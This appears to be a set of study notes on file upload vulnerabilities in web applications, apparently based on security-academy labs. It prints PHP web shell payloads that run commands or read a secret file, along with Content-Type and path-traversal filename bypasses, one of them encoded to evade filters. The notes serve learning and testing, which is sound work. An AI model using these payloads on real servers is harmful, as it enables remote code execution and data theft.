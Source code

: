 > Tip: 
> The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping.

## Upload file with the name that already exists
If the filename isn't validated properly, this could allow an attacker to overwrite critical files simply by uploading a file with the same name. If the server is also vulnerable to directory traversal, this could mean attackers are even able to upload files to unanticipated locations

## Fail in validation of filesize may lead to DoS attack

## File validation may be different for different endpoints

## Server is not configured to execute executable file may result in revealing  the source code 
If the file type is executable, but the server is not configured to execute files of this type, it will generally respond with an error. However, in some cases, the contents of the file may still be served to the client as plain text. Such misconfigurations can occasionally be exploited to leak source code and other sensitive information. You can see an example of this in our information disclosure learning materials. 

## Remote code execution via web shell upload
```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Another example:  
GET /example/exploit.php?command=id HTTP/1.1
```bash
<?php echo system($_GET['command']); ?>
```

## Web shell upload via Content-Type restriction bypass
Change Content-Type: to image/jpeg in the appropriate part of the req.body


## Web shell upload via path traversal
A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations on the filesystem that are assumed to be out of reach for end users. If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all.

Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved. 

Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
OR sometime it may not work so we may need to obfuscate it:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
